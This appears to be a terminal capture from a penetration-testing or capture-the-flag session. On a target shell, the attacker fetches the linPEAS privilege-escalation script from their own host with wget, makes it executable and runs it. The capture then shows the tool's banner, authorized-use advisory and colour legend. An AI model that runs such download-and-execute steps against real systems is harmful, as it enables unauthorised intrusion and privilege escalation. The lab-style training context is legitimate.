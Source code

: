 sh-4.2$ wget http://10.9.228.66:8000/linpeas.sh -nv
wget http://10.9.228.66:8000/linpeas.sh -nv
2021-11-18 06:39:10 URL:http://10.9.228.66:8000/linpeas.sh [470149/470149] -> "linpeas.sh" [1]

sh-4.2$ chmod +x linpeas.sh
chmod +x linpeas.sh

./linpeas.sh


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

      /---------------------------------------------------------------------------\
      |                             Do you like PEASS?                            |
      |---------------------------------------------------------------------------| 
      |         Become a Patreon    :     https://www.patreon.com/peass           |
      |         Follow on Twitter   :     @carlospolopm                           |
      |         Respect on HTB      :     SirBroccoli & makikvues                 |
      |---------------------------------------------------------------------------|
      |                                 Thank you!                                |
      \---------------------------------------------------------------------------/
        linpeas-ng by carlospolop

ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEGEND:
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username
